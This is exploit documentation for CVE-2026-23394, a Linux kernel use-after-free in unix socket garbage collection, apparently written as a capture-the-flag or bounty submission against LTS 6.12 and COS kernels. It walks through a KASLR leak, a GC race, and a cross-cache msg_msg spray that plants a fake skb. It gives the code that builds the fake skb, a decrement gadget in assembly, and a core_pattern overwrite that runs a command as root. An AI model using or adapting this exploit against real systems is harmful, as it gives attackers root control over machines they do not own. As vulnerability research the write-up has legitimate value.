

# CVE-2026-23394

Exploit documentation for `CVE-2026-23394` against `lts-6.12.74` and `cos-121-18867.294.134`.

The exploits are similar, therefore the cos version is a symlink to the lts version.

## Overview

```c
// @step(name="Exploit attempt (forked)")
pid_t pid = fork();
if (pid == 0) {
    // @step(name="Step 1: Preparation")
    struct race_setup setup = vuln_prepare();
    // @step(name="Step 2: Race between unix GC and recv+close")
    int victim_fd = trigger_vuln_race(setup);
    // @step(name="Step 3: Spray msg_msg to reclaim freed OOB skb slot")
    if (!g_vuln_trigger_only)
        spray_cross_cache_fake_skbs();
    // @step(name="Step 4: recv(MSG_OOB) triggers destructor gadget")
    rip_oob_skb_destructor(victim_fd);
    // @step(name="Step 5: Overwrite core_pattern and trigger crash")
    privesc_core_pattern();
}
```

## Step 0: KASLR bypass

Before entering the main exploit loop, we leak the kernel base address using a timing side-channel (`leak_kaslr_base` from the `xdk` framework). This is needed to compute absolute addresses for the decrement gadget, `core_pattern.mode`, and the `.bss` section used in the fake skb spray.

## Step 1: Preparation

We build a long cycle of unix sockets to make the window between the first socket checking and the last socket checking longer.

```c
#define NUM_DUMMY          800 // length of the long cycle of sockets
```

victim (checked first) -> dummy[0] -> dummy[1] -> ... -> dummy[NUM_DUMMY - 1] -> receiver (checked last)

## Step 2: Race between unix GC and recv+close

The race window depends on the time it takes the GC to iterate through all dummy sockets. Since this timing varies across machines and runs, we use an adaptive delay: the `busywait_ns` delay starts at 5 us and increases by 1 us every 5 attempts, resetting to the start value when it reaches 30 us. This sweep ensures we eventually hit the right timing.



## Step 3: Spray msg_msg to reclaim freed OOB skb slot

Now the GC has purged the `victim.receive_queue`, so all skbs in it have been freed and we can't access them through the queue anymore.

But the kernel saves a pointer to one skb in `victim.oob_skb`. The last skb sent with MSG_OOB will be saved in this field.

Therefore we can access the freed OOB skb through `recv(victim, MSG_OOB)`. Internally this will call `unix_stream_recv_urg`.

```c
static int unix_stream_recv_urg(struct unix_stream_read_state *state)
{
    // ...

    oob_skb = u->oob_skb;

    if (!(state->flags & MSG_PEEK)) {
        WRITE_ONCE(u->oob_skb, NULL);
        WRITE_ONCE(u->inq_len, u->inq_len - 1);

        if (oob_skb->prev != (struct sk_buff *)&sk->sk_receive_queue &&
            !unix_skb_len(oob_skb->prev)) {
            read_skb = oob_skb->prev; // save the prev skb pointer
            __skb_unlink(read_skb, &sk->sk_receive_queue);
        }
    }

    // ... read a byte from the OOB skb

    // this will free prev skb, which calls skb->destructor
    consume_skb(read_skb);

    // ...
}
```

So we have RIP control here via the `oob_skb->prev->destructor`.

The skbs stored in a separate cache, so we need cross-cache spray. To do that we groomed cache by sending many skbs before the target OOB skb. Also we send the OOB skb inside a sandwich to make sure we have full control of a page with the target skb and can free all skbs on that page.

Before the spray we free grooming skbs which saturate the freelist and free OOB skb along with surrounding sandwich skbs. After that the page with the OOB skb goes straight to the PCP and we are able to pick it in the next allocation.

There are many options for spraying now. One approach is the pipe write spray, but it requires either a heap leak or physical page spraying (NPerm). On the other hand there is `msg_msg` which naturally gives us a valid kernel pointer to our payload at the `skb->prev` offset (0x8): multiple `msg_msg` objects in the same queue form a doubly-linked list via `m_list`, so `m_list.prev` (at offset 0x8, overlapping `skb->prev`) points to the previous `msg_msg` which also contains our fake skb payload. We lose the first 48 bytes to the `msg_msg` header, but we don't need them anyway.

The spray builds a fake skb:

```c
memset(fake_skb_msg.mtext, 0, msg_data_sz);
*(uint64_t*)&fake_skb_msg.mtext[gadget_read_off     - msg_msg_sz] = target_for_first_deref;
*(uint64_t*)&fake_skb_msg.mtext[skb_off_destructor  - msg_msg_sz] = destructor_gadget;
*(uint32_t*)&fake_skb_msg.mtext[skb_off_users       - msg_msg_sz] = 1;
// any valid kernel pointer so the recv can read 1 byte from it
*(uint64_t*)&fake_skb_msg.mtext[skb_off_data        - msg_msg_sz] = bss_section;
// we need nullified memory to avoid kernel crash due to presence of fragments
*(uint64_t*)&fake_skb_msg.mtext[skb_off_head        - msg_msg_sz] = bss_section;
```

Here we fill a pointer to the `skb->destructor` and `skb->users` for the RIP control. `consume_skb` will decrement the `skb->users` and compare it to 0, after that it will free the skb which calls `skb->destructor`.

The `data` and `head` fields filled just to not crash the kernel. Because in the `unix_stream_recv_urg` we read a byte from `data` pointer. And the kernel will try to free all the fragments and we must make sure that we have 0 fragments by setting `head` to nullified memory such as `.bss` section.

The `gadget_read_off` filled with data needed for our decrement gadget.

## Step 4: recv(MSG_OOB) triggers destructor gadget

After we call `recv(victim, MSG_OOB)` the kernel calls `unix_stream_recv_urg` which calls `consume_skb(victim->oob_skb->prev)` which calls `oob_skb->prev->destructor`. Our fake structure has filled the `destructor` field with a decrement gadget.

The gadget for the LTS target looks like:

```asm
movq   %rdi, (%rdi)
movq   0x38(%rdi), %rdi
lock decl 0x100(%rdi)
je     0xffffffff812494ee ; <+30> at tasks.h:417:3
jmp    0xffffffff828873b0 ; __x86_return_thunk
```

For COS the gadget is structurally the same but uses `0xf8` as the decrement displacement instead of `0x100`.

When our gadget is called we have a pointer to our fake skb in the `rdi`. We have calculated offsets in our spray to decrement `core_pattern.mode` field and make `sysctl.core_pattern` world-writable.

## Step 5: Overwrite core_pattern and trigger crash

After `recv(victim, MSG_OOB)` is finished we have `sysctl.core_pattern` world-writable, therefore we just write `|/bin/dd if=/flag of=/dev/kmsg` to it and crash a child which will execute the payload as root piping the flag to the kernel messages buffer.
